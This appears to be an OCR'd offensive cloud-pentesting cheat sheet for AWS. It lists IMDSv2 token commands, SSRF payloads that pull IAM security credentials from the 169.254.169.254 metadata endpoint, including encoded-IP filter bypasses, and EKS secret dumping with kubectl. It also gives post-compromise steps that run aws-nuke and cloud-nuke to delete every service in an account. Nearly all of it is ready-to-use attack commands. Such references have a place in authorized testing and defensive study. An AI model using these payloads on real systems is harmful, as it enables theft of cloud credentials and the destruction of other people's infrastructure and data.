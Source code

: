 ```text
• Added session auth to requests
• First, a “PUT” request is sent and then responded to with a token
• Then, that token can be used to query data
--
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
curl http://example.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
--

Post-compromise
• What do our access keys give us access to?
• Check AIO tools to do some recon (WeirdAAL- recon_module, PACU privesc,...)

http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>

# AWS nuke - remove all AWS services of our account
# https://github.com/rebuy-de/aws-nuke
- Fill nuke-config.yml with the output of aws sts get-caller-identity
./aws-nuke -c nuke-config.yml # Checks what will be removed
- If fails because there is no alias created
aws iam create-account-alias --account-alias unique-name
./aws-nuke -c nuke-config.yml --no-dry-run # Will perform delete operation

# Cloud Nuke
# https://github.com/gruntwork-io/cloud-nuke
cloud-nuke aws

# Other bypasses
1.
aws eks list-clusters | jq -rc '.clusters'
["example"]
aws eks update-kubeconfig --name example
kubectl get secrets

2. SSRF AWS Bypasses to access metadata endpoint.
Converted Decimal IP: http://2852039166/latest/meta-data/
IPV6 Compressed: http://[::ffff:a9fe:a9fe]/latest/meta-data/
IPV6 Expanded: http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/

# Interesting metadata instance urls:
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```
